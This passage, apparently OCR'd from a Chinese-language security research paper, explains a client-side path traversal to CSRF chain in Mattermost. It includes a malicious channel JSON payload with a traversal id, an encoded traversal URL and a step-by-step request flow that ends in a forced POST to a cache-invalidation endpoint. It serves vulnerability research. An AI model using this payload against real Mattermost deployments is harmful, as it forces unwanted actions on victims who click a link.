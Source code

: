 恶意的 JSON payload 必须格式化为类似于频道响应数据（`/api/v4/teams/name/<team_name>/channels/name/<channel_name>`），其中包含指向目标 CSRF 端点（例如，`../caches/invalidate`?）的恶意 id：

```json
{
  "id": "../caches/invalidate?",
  "type": "O",
  "display_name": "fakeChannel",
  "name": "fakeChannel",
  "header": "",
  "purpose": ""
}
```
带有恶意 id 的假频道可以通过 `/api/v4/files/<file_id>` 访问。要执行该漏洞，攻击者必须强制前端加载这个恶意数据，而不是 `/api/v4/teams/name/<team_name>/channels/name/<channel_name>`

这可以通过在 Web 应用程序中构造一个 CSPT payload URL 来实现，例如 ***/<team_name>/channels/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffiles%2f<file_id>***，如果在Mattermost内共享，或者如果攻击来自外部网站，则使用双url编码。

---
***第25页***


如果受害者点击该链接，工作流程的请求将如下：

<img width="1090" alt="image" src="https://github.com/user-attachments/assets/70ff75b1-419e-451c-b813-9dd446e9acad">

1. 前端请求：
`/api/v4/teams/name/<team_name>/channels/name/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffiles%2f<file_id>` 这等同于请求：`/api/v4/files/<file_id>`


2. 返回包含恶意 channel_id 数据的假频道数据。

3. 前端认为该频道存在，并将验证用户是否已经加入该频道。它读取恶意的 channel_id（例如，`../caches/invalidate`?），并发出 GET 请求到：
`/api/v4/channels/../caches/invalidate?/members/<user_id>` 这等同于发出 GET 请求到 `/api/v4/caches/invalidate`

4. 该端点上不存在 GET 方法，因此后端返回 HTTP 404 代码。
   
5.前端尝试通过向 `/api/v4/channels/../caches/invalidate?/members` 发出 POST 请求来添加用户，这等同于在 `/api/v4/caches/invalidate` 上发出 POST 请求。这确认了 CSRF payload已被执行。

使用这个 source，攻击者能够在选定的端点（例如，`/api/v4/caches/invalidate`）上触发一个 one-click CSRF。

作为攻击者，使用file gadget，可以链式触发两个 CSPT2CSRF：

***第一个 CSPT2CSRF：***

```
➧ Source：URL 中的 channel_name；受害者需要点击链接以触发前端路由。
➧ Sink：API 上的 GET 请求。
```

***第二个 CSPT2CSRF：***

```
➧ Source：来自频道 JSON 数据的 id。
➧ Sink：API 上的 POST 请求。
```
